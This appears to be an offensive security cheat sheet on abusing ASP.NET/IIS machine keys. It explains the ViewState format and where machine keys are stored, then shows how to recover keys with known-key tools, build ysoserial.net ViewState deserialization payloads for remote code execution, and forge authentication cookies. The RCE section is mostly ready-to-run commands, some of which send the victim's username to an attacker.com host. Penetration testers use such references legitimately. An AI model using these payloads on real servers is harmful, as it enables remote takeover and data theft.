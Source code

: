 # IIS Machine Keys

> That machine key is used for encryption and decryption of forms authentication cookie data and view-state data, and for verification of out-of-process session state identification.

## Summary

* [Viewstate Format](#viewstate-format)
* [Machine Key Format And Locations](#machine-key-format-and-locations)
* [Identify Known Machine Key](#identify-known-machine-key)
* [Decode ViewState](#decode-viewstate)
* [Generate ViewState For RCE](#generate-viewstate-for-rce)
    * [MAC Is Not Enabled](#mac-is-not-enabled)
    * [MAC Is Enabled And Encryption Is Disabled](#mac-is-enabled-and-encryption-is-disabled)
    * [MAC Is Enabled And Encryption Is Enabled](#mac-is-enabled-and-encryption-is-enabled)
* [Edit Cookies With The Machine Key](#edit-cookies-with-the-machine-key)
* [References](#references)

## Viewstate Format

ViewState in IIS is a technique used to retain the state of web controls between postbacks in ASP.NET applications. It stores data in a hidden field on the page, allowing the page to maintain user input and other state information.

| Format | Properties |
| --- | --- |
| Base64 | `EnableViewStateMac=False`,  `ViewStateEncryptionMode=False` |
| Base64 + MAC | `EnableViewStateMac=True` |
| Base64 + Encrypted | `ViewStateEncryptionMode=True` |

By default until Sept 2014, the `enableViewStateMac` property was to set to `False`.
Usually unencrypted viewstate are starting with the string `/wEP`.

## Machine Key Format And Locations

A machineKey in IIS is a configuration element in ASP.NET that specifies cryptographic keys and algorithms used for encrypting and validating data, such as view state and forms authentication tokens. It ensures consistency and security across web applications, especially in web farm environments.

The format of a machineKey is the following.

```xml
<machineKey validationKey="[String]"  decryptionKey="[String]" validation="[SHA1 (default) | MD5 | 3DES | AES | HMACSHA256 | HMACSHA384 | HMACSHA512 | alg:algorithm_name]"  decryption="[Auto (default) | DES | 3DES | AES | alg:algorithm_name]" />
```

The `validationKey` attribute specifies a hexadecimal string used to validate data, ensuring it hasn't been tampered with.

The `decryptionKey` attribute provides a hexadecimal string used to encrypt and decrypt sensitive data.

The `validation` attribute defines the algorithm used for data validation, with options like SHA1, MD5, 3DES, AES, and HMACSHA256, among others.

The `decryption` attribute specifies the encryption algorithm, with options like Auto, DES, 3DES, and AES, or you can specify a custom algorithm using alg:algorithm_name.

The following example of a machineKey is from [Microsoft documentation](https://docs.microsoft.com/en-us/iis/troubleshoot/security-issues/troubleshooting-forms-authentication).

```xml
<machineKey validationKey="87AC8F432C8DB844A4EFD024301AC1AB5808BEE9D1870689B63794D33EE3B55CDB315BB480721A107187561F388C6BEF5B623BF31E2E725FC3F3F71A32BA5DFC" decryptionKey="E001A307CCC8B1ADEA2C55B1246CDCFE8579576997FF92E7" validation="SHA1" />
```

Common locations of **web.config** / **machine.config**

* 32-bits
    * `C:\Windows\Microsoft.NET\Framework\v2.0.50727\config\machine.config`
    * `C:\Windows\Microsoft.NET\Framework\v4.0.30319\config\machine.config`
* 64-bits
    * `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\config\machine.config`
    * `C:\Windows\Microsoft.NET\Framework64\v2.0.50727\config\machine.config`
* in the registry when **AutoGenerate** is enabled (extract with [irsdl/machineKeyFinder.aspx](https://gist.github.com/irsdl/36e78f62b98f879ba36f72ce4fda73ab))
    * `HKEY_CURRENT_USER\Software\Microsoft\ASP.NET\4.0.30319.0\AutoGenKeyV4`  
    * `HKEY_CURRENT_USER\Software\Microsoft\ASP.NET\2.0.50727.0\AutoGenKey`

## Identify Known Machine Key

Try multiple machine keys from known products, Microsoft documentation, or other part of the Internet.

* [isclayton/viewstalker](https://github.com/isclayton/viewstalker)

    ```powershell
    ./viewstalker --viewstate /wEPD...TYQ== -m 3E92B2D6 -M ./MachineKeys2.txt
    ____   ____.__                       __         .__   __
    \   \ /   /|__| ______  _  _________/  |______  |  | |  | __ ___________ 
    \   Y   / |  |/ __ \ \/ \/ /  ___/\   __\__  \ |  | |  |/ // __ \_  __ \
    \     /  |  \  ___/\     /\___ \  |  |  / __ \|  |_|    <\  ___/|  | \/
    \___/   |__|\___  >\/\_//____  > |__| (____  /____/__|_ \\___  >__|   
                    \/           \/            \/          \/    \/       

    KEY FOUND!!!
    Host:   
    Validation Key: XXXXX,XXXXX
    ```

* [blacklanternsecurity/badsecrets](https://github.com/blacklanternsecurity/badsecrets)

    ```ps1
    python examples/blacklist3r.py --viewstate /wEPDwUK...j81TYQ== --generator 3E92B2D6
    Matching MachineKeys found!
    validationKey: C50B3C89CB21F4F1422FF158A5B42D0E8DB8CB5CDA1742572A487D9401E3400267682B202B746511891C1BAF47F8D25C07F6C39A104696DB51F17C529AD3CABE validationAlgo: SHA1
    ```

* [NotSoSecure/Blacklist3r](https://github.com/NotSoSecure/Blacklist3r)

    ```powershell
    AspDotNetWrapper.exe --keypath MachineKeys.txt --encrypteddata /wEPDwUKLTkyMTY0MDUxMg9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRkbdrqZ4p5EfFa9GPqKfSQRGANwLs= --purpose=viewstate  --valalgo=sha1 --decalgo=aes --modifier=CA0B0334 --macdecode --legacy
    ```

* [0xacb/viewgen](https://github.com/0xacb/viewgen)

    ```powershell
    $ viewgen --guess "/wEPDwUKMTYyOD...WRkuVmqYhhtcnJl6Nfet5ERqNHMADI="
    [+] ViewState is not encrypted
    [+] Signature algorithm: SHA1
    ```

List of interesting machine keys to use:

* [NotSoSecure/Blacklist3r/MachineKeys.txt](https://github.com/NotSoSecure/Blacklist3r/raw/f10304bc90efaca56676362a981d93cc312d9087/MachineKey/AspDotNetWrapper/AspDotNetWrapper/Resource/MachineKeys.txt)
* [isclayton/viewstalker/MachineKeys2.txt](https://raw.githubusercontent.com/isclayton/viewstalker/main/MachineKeys2.txt)
* [blacklanternsecurity/badsecrets/aspnet_machinekeys.txt](https://raw.githubusercontent.com/blacklanternsecurity/badsecrets/dev/badsecrets/resources/aspnet_machinekeys.txt)

## Decode ViewState

* [BApp Store > ViewState Editor](https://portswigger.net/bappstore/ba17d9fb487448b48368c22cb70048dc) - ViewState Editor is an extension that allows you to view and edit the structure and contents of V1.1 and V2.0 ASP view state data.
* [0xacb/viewgen](https://github.com/0xacb/viewgen)

    ```powershell
    viewgen --decode --check --webconfig web.config --modifier CA0B0334 "zUylqfbpWnWHwPqet3cH5Prypl94LtUPcoC7ujm9JJdLm8V7Ng4tlnGPEWUXly+CDxBWmtOit2HY314LI8ypNOJuaLdRfxUK7mGsgLDvZsMg/MXN31lcDsiAnPTYUYYcdEH27rT6taXzDWupmQjAjraDueY="
    ```

## Generate ViewState For RCE

First you need to decode the Viewstate to know if the MAC and the encryption are enabled.

**Requirements**:

* `__VIEWSTATE`
* `__VIEWSTATEGENERATOR`

### MAC Is Not Enabled

```ps1
ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "powershell.exe Invoke-WebRequest -Uri http://attacker.com/:UserName"
```

### MAC Is Enabled And Encryption Is Disabled

* Find the machine key (validationkey) using `badsecrets`, `viewstalker`, `AspDotNetWrapper.exe` or `viewgen`

    ```ps1
    AspDotNetWrapper.exe --keypath MachineKeys.txt --encrypteddata /wEPDwUKLTkyMTY0MDUxMg9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRkbdrqZ4p5EfFa9GPqKfSQRGANwLs= --purpose=viewstate  --valalgo=sha1 --decalgo=aes --modifier=CA0B0334 --macdecode --legacy
    # --modifier = `__VIEWSTATEGENERATOR` parameter value
    # --encrypteddata = `__VIEWSTATE` parameter value of the target application
    ```

* Then generate a ViewState using [pwntester/ysoserial.net](https://github.com/pwntester/ysoserial.net), both `TextFormattingRunProperties` and `TypeConfuseDelegate` gadgets can be used.

    ```ps1
    .\ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "powershell.exe Invoke-WebRequest -Uri http://attacker.com/:UserName" --generator=CA0B0334 --validationalg="SHA1" --validationkey="C551753B0325187D1759B4FB055B44F7C5077B016C02AF674E8DE69351B69FEFD045A267308AA2DAB81B69919402D7886A6E986473EEEC9556A9003357F5ED45"
    .\ysoserial.exe -p ViewState -g TypeConfuseDelegate -c "powershell.exe -c nslookup http://attacker.com" --generator=3E92B2D6 --validationalg="SHA1" --validationkey="C551753B0325187D1759B4FB055B44F7C5077B016C02AF674E8DE69351B69FEFD045A267308AA2DAB81B69919402D7886A6E986473EEEC9556A9003357F5ED45"

    # --generator = `__VIEWSTATEGENERATOR` parameter value
    # --validationkey = validation key from the previous command
    ```

### MAC Is Enabled And Encryption Is Enabled

Default validation algorithm is `HMACSHA256` and the default decryption algorithm is `AES`.

If the `__VIEWSTATEGENERATOR` is missing but the application uses .NET Framework version 4.0 or below, you can use the root of the app (e.g: `--apppath="/testaspx/"`).

* **.NET Framework < 4.5**, ASP.NET always accepts an unencrypted `__VIEWSTATE` if you remove the `__VIEWSTATEENCRYPTED` parameter from the request

    ```ps1
    .\ysoserial.exe -p ViewState -g TypeConfuseDelegate -c "echo 123 > c:\windows\temp\test.txt" --apppath="/testaspx/" --islegacy --validationalg="SHA1" --validationkey="70DBADBFF4B7A13BE67DD0B11B177936F8F3C98BCE2E0A4F222F7A769804D451ACDB196572FFF76106F33DCEA1571D061336E68B12CF0AF62D56829D2A48F1B0" --isdebug
    ```

* **.NET Framework > 4.5**, the machineKey has the property: `compatibilityMode="Framework45"`

    ```ps1
    .\ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "echo 123 > c:\windows\temp\test.txt" --path="/somepath/testaspx/test.aspx" --apppath="/testaspx/" --decryptionalg="AES" --decryptionkey="34C69D15ADD80DA4788E6E3D02694230CF8E9ADFDA2708EF43CAEF4C5BC73887" --validationalg="HMACSHA256" --validationkey="70DBADBFF4B7A13BE67DD0B11B177936F8F3C98BCE2E0A4F222F7A769804D451ACDB196572FFF76106F33DCEA1571D061336E68B12CF0AF62D56829D2A48F1B0"
    ```

## Edit Cookies With The Machine Key

If you have the `machineKey` but the viewstate is disabled.

ASP.net Forms Authentication Cookies : [liquidsec/aspnetCryptTools](https://github.com/liquidsec/aspnetCryptTools)

```powershell
# decrypt cookie
$ AspDotNetWrapper.exe --keypath C:\MachineKey.txt --cookie XXXXXXX_XXXXX-XXXXX --decrypt --purpose=owin.cookie --valalgo=hmacsha512 --decalgo=aes

# encrypt cookie (edit Decrypted.txt)
$ AspDotNetWrapper.exe --decryptDataFilePath C:\DecryptedText.txt
```

## References

* [Deep Dive into .NET ViewState Deserialization and Its Exploitation - Swapneil Kumar Dash - October 22, 2019](https://swapneildash.medium.com/deep-dive-into-net-viewstate-deserialization-and-its-exploitation-54bf5b788817)
* [Exploiting Deserialisation in ASP.NET via ViewState - Soroush Dalili - April 23, 2019](https://soroush.me/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/)
* [Exploiting ViewState Deserialization using Blacklist3r and YSoSerial.Net - Claranet - June 13, 2019](https://www.claranet.com/us/blog/2019-06-13-exploiting-viewstate-deserialization-using-blacklist3r-and-ysoserialnet)
* [Project Blacklist3r - @notsosecure - November 23, 2018](https://www.notsosecure.com/project-blacklist3r/)
* [View State, The Unpatchable IIS Forever Day Being Actively Exploited - Zeroed - July 21, 2024](https://zeroed.tech/blog/viewstate-the-unpatchable-iis-forever-day-being-actively-exploited/)
